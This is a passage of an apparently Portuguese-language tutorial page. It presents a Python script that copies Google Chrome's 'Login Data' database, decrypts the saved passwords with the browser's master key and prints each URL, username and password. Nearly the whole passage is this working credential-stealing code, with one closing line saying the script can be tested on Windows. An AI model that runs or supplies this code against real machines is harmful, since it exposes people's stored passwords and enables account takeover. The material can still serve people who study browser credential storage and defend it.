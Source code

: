 ```python
        cifra = gera_cifra(key, pw)
        pass_decrypt = decrypt_payload(cifra, payload)
        pass_decrypt = pass_decrypt[:-16].decode()
        return pass_decrypt
    except:
        return "Chrome < 80"


key = master()
db = path + r"Default\Login Data"

# cria uma copia do db, caso o Chrome esteja aberto
shutil.copy2(db, "database.db")

# conecta na copia do database
connect = sqlite3.connect("database.db")
cursor = connect.cursor()

try:
    cursor.execute("select action_url, username_value, password_value from logins")
    for i in cursor.fetchall():
        url = i[0]
        user = i[1]
        password = i[2]
        password = decrypt_pwd(password, key)
        if len(user) > 0:
            print("URL: " + url + "\nUser: " + user + "\nPassword: " + password + "\n\n")
except Exception as e:
    pass

# finaliza a conexao com o database
cursor.close()
connect.close()

# remove a copia do db
try:
    os.remove("database.db")
except Exception as e:
    pass
```

Com o script pronto, o teste pode ser feito no Windows.

<center><img src="/std/dojo/dojo-12.png"></center>
